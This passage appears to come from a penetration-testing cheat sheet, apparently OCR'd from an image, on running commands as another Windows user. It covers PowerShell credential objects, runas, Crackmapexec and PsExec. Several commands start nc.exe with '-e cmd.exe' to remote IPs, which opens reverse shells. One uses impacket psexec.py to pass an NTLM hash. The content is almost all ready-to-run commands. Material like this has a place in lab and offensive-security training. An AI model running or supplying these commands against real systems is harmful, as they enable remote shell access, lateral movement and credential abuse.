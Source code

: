 
```
PS C:\Windows\Temp> $secpasswd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
PS C:\Windows\Temp> $mycreds = New-Object System.Management.Automation.PSCredential('Administrator',$secpasswd)
PS C:\Windows\Temp> $computer = 'Chatterbox'
PS C:\Windows\Temp> [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe", "10.10.14.29 4445 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

* Runas script 1:
```
$username = "Administrator"
$password = "<PASSWORD>"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -Credential $cred -Computer localhost -ScriptBlock {whoami}
```

* Runas Script 2:
```
$username = 'Administrator'
$password = '<PASSWORD>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process nc.exe -ArgumentList '-e cmd.exe 10.10.10.10 4444' -Credential $credential

powershell -ExecutionPolicy Bypass -File runas.ps1
```

### Crackmapexec

```
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```

### CMD

```
# Requires interactive console
runas /user:userName cmd.exe
```

### PsExec

```
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
/opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82
```
